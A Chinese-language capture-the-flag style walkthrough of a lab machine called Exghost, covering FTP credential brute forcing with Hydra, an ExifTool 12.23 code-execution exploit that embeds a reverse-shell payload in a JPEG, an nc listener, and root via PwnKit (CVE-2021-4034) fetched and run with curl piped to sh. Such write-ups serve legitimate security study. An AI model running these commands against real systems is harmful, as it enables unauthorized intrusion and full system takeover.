 ```yaml
---
description: Easy - Linux：ExifTool 12.23
---
```


# ✔️ Exghost

## 建立立足点

### 信息枚举

使用Nmap对目标进行开放端口扫描，获得2个开放端口：

<figure><img src="../.gitbook/assets/1 (1) (1).png" alt=""><figcaption></figcaption></figure>

首先对80端口的Web网页进行检查，无收获：

<figure><img src="../.gitbook/assets/2 (1) (1).png" alt=""><figcaption></figcaption></figure>

然后尝试以Anonymous身份登录FTP服务，也没有收获。因此，尝试使用暴力破解，获得登录凭证：<mark style="color:red;">**user:system**</mark>

```bash
// 用Hydra对目标FTP进行暴力破解尝试
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.160.183 -V
```

<figure><img src="../.gitbook/assets/3 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/4 (1) (1).png" alt=""><figcaption></figcaption></figure>

登录FTP后获取到一个backup文件，将它下载到kali本地后，发现它是一个PCAP文件，用Wireshark打开并查看其HTTP流相关数据包：

{% hint style="info" %}
本例中关于目标FTP服务开启了被动模式，因此登录后并不能下载目标文件，需要关闭这个被动模式，才能成功下载。

<img src="../.gitbook/assets/6 (1) (1).png" alt="" data-size="original">

```bash
// 登录FTP后，直接输入：
passive
```
{% endhint %}

<figure><img src="../.gitbook/assets/5 (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
// FTP服务中：
get backup
// Kali本机中，检查该文件的属性：
file backup
```

### 漏洞查找

使用Wireshark打开backup文件后，过滤HTTP数据包，发现了：

* <mark style="color:red;">**/exiftest.php**</mark>：一个上传图片的路径
* 已成功上传了一个testme.jpg的图片
* 使用的是<mark style="color:red;">**ExifTool**</mark>，其版本号为：<mark style="color:red;">**12.23**</mark>

<figure><img src="../.gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/8 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/9 (1).png" alt=""><figcaption></figcaption></figure>

尝试查找ExifTool 12.23的公开已知漏洞，发现确实有一个任意代码执行的漏洞，将其下载后发现是一个用于将反弹shell的payload写入一个jpg文件的脚本：

```bash
searchsploit exiftool 12.23
```

<figure><img src="../.gitbook/assets/10 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

```
// 将利用脚本下载到Kali本地：
searchsploit -m 50911.py .
// 查看其使用方法：
python3 50911.py -h
// 制作payload，得到名为image.jpg的图片文件:
python3 50911.py -s 192.168.45.200 4444
```

<figure><img src="../.gitbook/assets/11 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/12 (1) (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

首先在Kali本机监听与payload对应的端口：4444

```bash
// Kali本机：
nc -lvnp 4444
```

然后将制作好的payload（image.jpg）上传到目标，等待反弹回来的shell：

```bash
// 在payload所在的文件夹
curl -v -F myFile=@image.jpg http://192.168.160.183/exiftest.php
```

<figure><img src="../.gitbook/assets/13 (1) (1).png" alt=""><figcaption></figcaption></figure>

成功获得反弹shell，并查找到local.txt文件：

<figure><img src="../.gitbook/assets/14 (1) (1).png" alt=""><figcaption></figcaption></figure>

## 提升权限

### 本地信息收集

<figure><img src="../.gitbook/assets/15 (1).png" alt=""><figcaption></figcaption></figure>

当手动枚举无明确收获时，可使用工具进行枚举，如：

* LinEnum.sh
* LinPEAS.sh

本例使用LinEnum.sh，在Kali本机开启一个简易的服务器，将脚本传到目标上，直接运行该脚本：

```bash
// Kali本机：
python3 -m http.server
// 目标主机：
curl http://192.168.45.220:8000/LinEnum.sh -o linenum.sh
chmod +x linenum.sh
./linenum.sh
```

<figure><img src="../.gitbook/assets/16 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/17 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查找

本例中，我是直接尝试搜索目标系统内核版本的相关漏洞，发现有可能可以尝试利用的脚本，所以直接root了。个人感觉LinPEAS.sh相较于LinEnum.sh来说更详细和高效，推荐用LinPEAS.sh来进行本地信息枚举。

<figure><img src="../.gitbook/assets/18.png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

找到本例中的目标系统易受内核漏洞CVE-2021-4034的攻击，同时找到其GitHub上的可利用脚本<mark style="color:red;">**PwnKit.sh**</mark>&#x20;

{% hint style="info" %}
MEMO.

* [https://github.com/ly4k/PwnKit/tree/main](https://github.com/ly4k/PwnKit/tree/main)
* [https://ine.com/blog/exploiting-pwnkit-cve-20214034?source=post\_page-----0b50df883a65--------------------------------](https://ine.com/blog/exploiting-pwnkit-cve-20214034?source=post\_page-----0b50df883a65--------------------------------)
{% endhint %}

### ROOT

开箱即用，一键root：

```bash
sh -c "$(curl -fsSL http://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```

<figure><img src="../.gitbook/assets/19.png" alt=""><figcaption></figcaption></figure>
